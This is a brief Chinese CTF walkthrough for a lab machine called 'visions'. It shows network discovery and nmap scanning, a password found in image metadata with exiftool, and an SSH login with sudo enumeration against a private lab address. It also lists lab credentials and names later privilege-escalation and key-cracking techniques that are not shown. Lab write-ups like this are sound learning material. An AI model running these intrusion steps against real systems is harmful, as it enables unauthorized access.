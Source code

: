 |   |   |   |
|---|---|---|
|visions|easy|图片隐写、图片调试、exiftool使用、sudo-nc提权、ssh私钥提权、ssh2john使用、john爆破私钥、ssh 私钥利用|
# 主机发现
```C
sudo netdiscover -i eth0 -r 192.168.44.136/24
```
# 服务扫描
```C
sudo nmap -sV -A -T 4 -p- 192.168.44.136 
```
# 目录扫描

右键检查查看源码，猜测是用户名alicia
```C
 http://192.168.44.136/index.html
 
Only those that can see the invisible can do the imposible.
You have to be able to see what doesnt exist.
Only those that can see the invisible being able to see whats not there.
-alicia 

翻译

只有那些能看到无形事物的人才能做到不可能的事情。
你必须能够看到不存在的东西。
只有那些能够看到不可见事物的人才能看到不存在的事物。
-艾丽西亚
```

页面只有个white.png空白图片，猜测是图片隐写
保存下来
查看信息
```C
exiftool white.png
strings white.png

得到： pw:ihaveadream
```
# 提权
sophia/seemstobeimpossible


```C
┌──(kali㉿kali)-[~/下载]
└─$ ssh alicia@192.168.44.136 //ihaveadream

sudo -l //
```